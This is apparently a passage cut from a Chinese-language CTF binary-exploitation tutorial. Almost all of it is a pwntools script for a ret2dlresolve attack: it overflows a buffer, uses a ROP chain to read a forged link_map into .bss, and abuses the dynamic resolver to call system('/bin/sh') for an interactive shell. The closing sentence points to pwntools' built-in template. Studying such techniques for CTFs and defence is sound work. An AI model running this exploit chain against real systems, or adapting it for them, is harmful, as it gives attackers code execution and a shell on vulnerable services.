pause()
elf = ELF("pwn")
libc = ELF("../../../glibc-all-in-one/libs/2.27-3ubuntu1.5_amd64/libc-2.27.so")

n64 = lambda x: (x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
pop_rdi_ret = 0x0000000000400583
pop_rsi_ret = 0x0000000000400581
ret = 0x4003de
read_plt = elf.plt["read"]

bss_addr = elf.bss()
# put fake link map at bss+0x800
fake_link_map_addr = bss_addr + 0x800
# build fake link map, resolve read to call _dl_resolve to execve system("/bin/sh")
offset = n64(libc.sym["system"] - libc.sym["read"])
# forge linkmap
fake_link_map = p64(n64(libc.sym["system"] - libc.sym["read"])) # l_addr
fake_link_map = fake_link_map.ljust(0x68,b'\x00')
# forge l_info
fake_link_map += p64(bss_addr) #l_info[5] ->strtab (not important)
fake_link_map += p64(fake_link_map_addr + 0x100) # pointing l_info[6] Dyn of symtab
fake_link_map = fake_link_map.ljust(0xf8, b'\x00')
fake_link_map += p64(fake_link_map_addr + 0x110)  # l_info[23]
fake_link_map += p64(0) + p64(elf.got["read"] - 8)  # Elf64_Dyn
fake_link_map += p64(0) + p64(fake_link_map_addr + 0x120)  # Elf64_Dyn
fake_link_map += p64(n64(elf.bss() - offset)) + p32(7) + p32(0)  # Elf64_Rel

bin_sh_addr = fake_link_map_addr + len(fake_link_map)
fake_link_map += b"/bin/sh\x00"
main = 0x4004e7
resolve_plt = elf.get_section_by_name('.plt').header.sh_addr

#use ROP to read fake link map into fake link map addr
rop = b"a" * 256 + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(fake_link_map_addr) + p64(0)
rop += p64(read_plt) + p64(pop_rdi_ret) + p64(bin_sh_addr) +p64(ret) + p64(resolve_plt+6) + p64(fake_link_map_addr) + p64(0)
print("resolve_plt+6",hex(resolve_plt+6))

io.sendline(rop)

sleep(0.2)

print("fake_link_map_addr:",hex(fake_link_map_addr))

io.sendline(fake_link_map)

io.interactive()
```
pwntools中亦有简单的模板可以直接使用。